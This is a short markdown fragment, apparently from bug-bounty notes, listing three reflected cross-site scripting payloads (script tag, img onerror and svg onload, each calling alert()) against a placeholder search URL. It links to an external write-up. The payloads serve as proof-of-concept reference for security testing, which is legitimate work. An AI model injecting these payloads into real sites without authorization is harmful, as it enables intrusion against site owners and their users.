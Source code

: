 # Cross-Site Scripting (XSS)
## Reflected XSS
1. ```https://www.target.net/inc.search_ney.php```>```<script>alert()</script>```,```<img src=x onerror=alert()>```,```<svg onload=alert()>``` [link](https://medium.com/@osamaashraf1233/reflected-cross-site-scripting-in-search-functionality-d584593b966f)
